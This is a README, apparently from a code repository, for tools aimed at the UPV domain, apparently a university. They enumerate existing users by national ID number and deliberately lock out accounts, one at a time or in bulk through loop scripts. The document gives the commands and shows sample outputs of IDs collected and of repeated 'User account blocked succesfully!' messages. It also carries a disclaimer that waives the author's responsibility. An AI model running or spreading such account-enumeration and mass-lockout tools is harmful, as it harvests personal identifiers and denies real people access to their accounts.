 > Disclaimer:
>
> The author is not responsable of any damage caused by someone has used the software

# Experimental version

This version was tested in `2023 Oct 27`. If stopped working in the future, please open an issue to update the code.


## Example of use

* Recollect data
* Test user
* Block user accoun
* Block multiple users

### Recollect data

```bash
python3 .\recollect.py -m 23887868 -M 53887869
```

Output (All existing DNI in UPV inside the -m and -M range):
```txt
52xxxxxx
23xxxxxx
23xxxxxx
23xxxxxx
23xxxxxx
23xxxxxx
23xxxxxx
...

> All data is dumped into users.txt
```


### Test user

```bash
python3 ./test.py -u 23181169
```

Output (Show if user exist in UPV list):
```txt
User not found in UPV domain
========= End =========

> All data is dumped into test.txt file
```


### Block user account

```bash
python3 ./bomb.py -u 53887869
```

Output (Show the status of attack):
```txt
> For not found user
User not found in UPV domain
========= End =========

> For found user
User account blocked succesfully!
========= End =========
```


### Block multiple users

To do this action you have to define a file called `./users.txt` that store the user dni one per line.
Also this job can be done with `recollect data` section to scan all the dni

Windows:
```bat
.\loopbomb.bat
```

Linux / Unix:
```bash
./loopbomb.sh
```

Output (All the status)
```txt
User account blocked succesfully!
========= End =========
User account blocked succesfully!
========= End =========
User account blocked succesfully!
========= End =========
User account blocked succesfully!
========= End =========
User account blocked succesfully!
========= End =========
User account blocked succesfully!
========= End =========
User account blocked succesfully!
========= End =========
User account blocked succesfully!
========= End =========
```


